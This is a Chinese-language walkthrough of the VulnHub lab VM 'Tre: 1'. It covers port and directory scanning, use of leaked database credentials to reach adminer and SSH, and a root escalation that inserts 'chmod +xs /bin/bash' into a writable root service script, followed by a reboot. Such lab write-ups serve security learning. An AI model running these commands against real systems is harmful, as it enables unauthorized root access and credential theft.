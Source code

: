 # Tre: 1

2024-5-25 https://www.vulnhub.com/entry/tre-1,483/

difficulty: Intermediate

## IP

192.168.10.188

## Scan

Open Port -> 22,80,8082

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 991aead7d7b348809f88822a14eb5f0e (RSA)
|   256 f4f69cdbcfd4df6a910a8105defa8df8 (ECDSA)
|_  256 edb9a9d72d00f81bd399d602e5ad179f (ED25519)
80/tcp   open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Tre
8082/tcp open  http    nginx 1.14.2
|_http-server-header: nginx/1.14.2
|_http-title: Tre
```

8082 对应的 nginx，gobuster 扫描不出其他目录，估计是个摆设。

gobuster 扫描 80 端口，看看有什么信息：

```
http://192.168.10.188/adminer.php          (Status: 200) [Size: 87812]
http://192.168.10.188/info.php             (Status: 200) [Size: 87812]
http://192.168.10.188/cms                  (Status: 301) [Size: 314] [--> http://192.168.10.188/cms/]
http://192.168.10.188/index.html           (Status: 200) [Size: 164]
http://192.168.10.188/mantisbt             (Status: 401) [Size: 461]
http://192.168.10.188/system               (Status: 401) [Size: 461]

```

http://192.168.10.188/mantisbt 可以利用下面的 exp 进入到 www-data 权限的 shell：

```
Mantis Bug Tracker 2.3.0 - Remote Code Execution (Unauthenticated)   | php/webapps/48818.py
```

/adminer.php 是一个 mysql 数据库的图形化管理程序，但是不知道用户和密码，尝试了默认的用户凭据，登陆不了，暂时放这里。

/info.php 是 phpinfo 页面。

http://192.168.10.188/cms 都显示的是静态页面，登陆按钮点击后没反应，估计攻击点也不是这里。

http://192.168.10.188/mantisbt 显示了一个 CMS 系统的登陆页面，看到 CMS 的名字是 mantis，默认凭据是 administrator:root，尝试登陆，但显示被锁定。

继续使用目录扫描工具，看看 /mantisbt 目录下，是否还有其他有用信息。

http://192.168.10.188/mantisbt/config/ 目录中发现了一些配置信息：

```
http://192.168.10.188/mantisbt/config/Web.config

<configuration>
<system.webServer>
<security>
<authorization>
<remove users="*" roles="" verbs=""/>
<add accessType="Deny" users="*"/>
</authorization>
</security>
</system.webServer>
</configuration>
```

显示 Deny All

http://192.168.10.188/mantisbt/config/a.txt 发现了一些数据库的配置信息：

```
$g_hostname      = 'localhost';
$g_db_username   = 'mantissuser';
$g_db_password   = 'password@123AS';
$g_database_name = 'mantis';
$g_db_type       = 'mysqli';
```

还记得前面我们发现的 http://192.168.10.188/adminer.php ，可以用上面获得的凭据进行登陆。在 mantis_user_table 表中，发现了用户名和密码：

```
administrator  3492f8fe2cb409e387ddb0521c999c38
tre            64c4685f8da5c2225de7890c1bad0d7f
```

但是没有找到这个 2 个密码对应的明文。得到了一个 tre 用户，爆破下 ssh 看看能不能行吧，没有找到密码。

这里找了一些资料，看到 tre 的名字是数据库中的 realname 的值，tre 的 realname 为 Tr3@123456A!,再次尝试 ssh 登陆，登陆成功。

http://192.168.10.188/system 要有 http basic 认证，尝试使用 admin:admin 认证成功，页面跳转到 http://192.168.10.188/system/login_page.php 是一个登陆页面，跟http://192.168.10.188/mantisbt 显示的内容是一样的。

进入到 tre 用户后，进行系统枚举。

sudo -l 显示的是 shutdown，直接堵死。

linpeas 枚举，也没发现什么有用信息，在用 pspy 看看系统有没有后天定时任务吧。

发现每秒都在执行 /bin/bash /usr/bin/check-system，并且可写：

```
tre@tre:/tmp$ ls -la /usr/bin/check-system
-rw----rw- 1 root root 135 May 12  2020 /usr/bin/check-system
```

但是这是一个循环：

```
DATE=`date '+%Y-%m-%d %H:%M:%S'`
echo "Service started at ${DATE}" | systemd-cat -p info

while :
do
echo "Checking...";
sleep 1;
done
```

写入后门代码也不会执行，必须写入后将系统重启，才能执行到我们写入的后门代码，这里知道为什么 tre 用户 sudo 权限又重启权限了，原来在这里用上了：

```
sed -i '1i chmod +xs /bin/bash' /usr/bin/check-system
sudo shutdown -r now
```

重启后，得到了 suid 权限的 /bin/bash:

```
-bash-5.0$ /bin/bash -p
bash-5.0# cd /root
bash-5.0# ls
root.txt
bash-5.0# cat root.txt
{SunCSR_Tr3_Viet_Nam_2020}
```

发现脚本是以 service 启动：

```
bash-5.0# cat check-system.service
[Unit]
Description=Systemd service.

[Service]
Type=simple
ExecStart=/bin/bash /usr/bin/check-system

[Install]
WantedBy=multi-user.target
```
